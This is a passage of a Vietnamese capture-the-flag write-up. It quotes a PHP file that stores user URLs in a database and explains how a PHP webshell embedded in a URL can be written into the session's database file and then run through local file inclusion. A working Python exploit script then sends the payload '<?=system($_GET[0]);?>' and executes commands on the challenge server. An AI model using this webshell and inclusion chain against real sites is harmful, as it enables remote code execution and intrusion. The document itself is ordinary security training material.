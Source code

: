 File `store.php`

```php=
<?php
    error_reporting(0);
    if (!isset($main)) {
        die("Hack detected");
    }
    if (isset($_POST["url"])) {
        $url = $_POST["url"];
        if (filter_var($url, FILTER_VALIDATE_URL) === FALSE) {
            die('Not a valid URL');
        }
        $stmt = $pdo->prepare("INSERT INTO img VALUES (?)");
        $stmt->execute([$url]);
    }

?>
```
- Check `url` truyền vào có hợp lệ hay không
- `url` sẽ được lưu vô table `img`

### IDEA
- Sau khi nhập `url` thì sẽ được lưu vô db. Chúng ta có thể biết được filename của db và vị trí lưu của file này.
- Nhập url là 1 đoạn code php => code php sẽ được lưu trong file db
- Sử dụng LFI để execute file db nằm ở `/var/www/html/db/[session_id].db`

### Payload

```python=
import requests

URL = 'http://103.245.250.31:32184'
CMD = 'cat /71c99-flag-e9c94.txt'

def upShell():
    data = {'url':'http://caheo/<?=system($_GET[0]);?>'}
    r = requests.post(URL+'/index.php?page=store.php',data=data)
    return r.cookies['PHPSESSID']

def getFlag():
    sessid = upShell()
    params = {"page":f"file:///var/www/html/db/{sessid}.db","0":CMD}
    r = requests.get(URL,params=params)
    print(r.text)

getFlag()
```

# Challenge No BackEnd
